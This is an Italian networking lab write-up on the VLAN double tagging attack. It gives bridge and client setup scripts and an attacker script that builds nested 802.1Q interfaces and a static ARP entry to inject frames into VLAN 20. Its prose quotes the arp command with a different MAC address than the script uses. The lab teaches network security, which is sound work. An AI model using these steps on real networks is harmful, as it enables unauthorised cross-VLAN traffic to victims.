 # VLAN: Double Tagging Attack
Il **Double Tagging Attack** prevede che l'attaccante sia connesso tramite un *Trunk Link* ad uno switch, e che possa inviare pacchetti taggati con l'id della native VLAN dello switch. Con queste premesse l'attacco funziona sfruttando il comportamento tipico dello switch di quando deve inoltrare un pacchetto appartenente alla sua native VLAN: il pacchetto viene inoltrato *untagged*. Più precisamente, il tag relativo alla native VLAN, se presente, viene rimosso. L'idea è quindi quella di inviare un pacchetto con due tag: il primo tag deve essere quello della nativa VLAN dello switch, il secondo tag è invece quello della rete VLAN verso cui si vuole inoltrare il pacchetto. Così facendo, il pacchetto ricevuto dallo switch viene manipolato affinché il primo tag venga rimosso, senza sapere che a seguire c'è un ulteriore tag di un'altra VLAN. Il pacchetto che viene inoltrato sarà quindi un pacchetto legale diretto verso una VLAN a cui l'attaccante non appartiene. Osserviamo che questo attacco consente ad un attaccante di inviare pacchetti verso un'altra VLAN, ma non di riceverne.

# Laboratorio
![topology](topology.png)

Partiamo da una topologia simile a quella del laboratorio sulle VLAN. In questo caso togliamo però il router in quanto non vogliamo consentire la comunicazione inter-VLAN. L'attaccante è connesso ad un *Trunk Link*. Lo scopo del laboratorio è quello di simulare un **Double Tagging Attack**, ovvero di inviare pacchetti ad una vittima nella VLAN 20 anche se l'attaccante si trova in un'altra VLAN e la comunicazione inter-VLAN via un IP GW non è consentita.

## Configurazione degli switch

#### Switch 1 (scripts/switch1/setup.sh):
```
ip link add name bridge type bridge
ip link set dev bridge type bridge vlan_filtering 1
ip link set bridge up
ip link set dev eth0 master bridge
ip link set dev eth1 master bridge
ip link set dev eth2 master bridge
ip link set dev eth3 master bridge
bridge vlan add dev eth0 vid 10 pvid untagged
bridge vlan add dev eth1 vid 20 pvid untagged
bridge vlan add dev eth2 vid 10
bridge vlan add dev eth2 vid 20
```

#### Switch 2 (scripts/switch2/setup.sh):
```
ip link add name bridge type bridge
ip link set dev bridge type bridge vlan_filtering 1
ip link set bridge up
ip link set dev eth0 master bridge
ip link set dev eth1 master bridge
ip link set dev eth2 master bridge
bridge vlan add dev eth0 vid 10 pvid untagged
bridge vlan add dev eth1 vid 20 pvid untagged
bridge vlan add dev eth2 vid 10
bridge vlan add dev eth2 vid 20
```


## Configurazione dei client

#### Client 1 (scripts/client1/setup.h):
```
ip link set eth0 up
ip addr add 10.0.10.101/24 dev eth0
ip route add default via 10.0.10.1
```

#### Client 2 (scripts/client2/setup.h):
```
ip link set eth0 up
ip addr add 10.0.20.101/24 dev eth0
ip route add default via 10.0.20.1
```

#### Client 3 (scripts/client3/setup.h):
```
ip link set eth0 up
ip addr add 10.0.10.102/24 dev eth0
ip route add default via 10.0.10.1
```

#### Client 4 (scripts/client4/setup.h):
```
ip link set eth0 up
ip link set dev eth0 address d0:d0:d0:d0:d0:d0
ip addr add 10.0.20.102/24 dev eth0
ip route add default via 10.0.20.1
```

#### Attacker (scripts/attacker/setup.sh):
```
# script for sending double 802.1q frames with 
# native tools on Linux (we can use also scapy..)
ip link add link eth0 name eth0.1 type vlan id 1
ip link set eth0.1 up
ip link add link eth0.1 name eth0.1.20 type vlan id 20
ip link set eth0.1.20 up
ip addr add 10.0.20.250/24 dev eth0.1.20
arp -s 10.0.20.102 d0:d0:d0:d0:d0:d0 -i eth0.1.20 #if mac not known use broadcast MAC
```

Con i comandi precendenti andiamo a creare due interfacce virtuali sull'attaccante:
* ```eth0.1```, con ```id 1```. Questa VLAN ha lo stesso id della *native VLAN* del link tra i due switch.
* ```eth0.1.20```, con ```id 20```. Questa VLAN ha l'id della VLAN target. Questa interfaccia virtuale ha come *parent* l'interfaccia virtuale precedente, in modo tale da permettere il doppio incapsulamento. Il comando ```arp -s 10.0.20.102 a0:a0:a0:a0:a0:a0 -i eth0.1.20``` serve a manipolare la arp cache: si aggiunge il bind tra indirizzo MAC e indirizzo ip specificati sull'interfaccia eth0.1.20. Con il comando arp -a si può effettivamente verificare l'effettivo binding. Si può osservare che, per comodità, si è assegnato un indirizzo MAC statico al client vittima.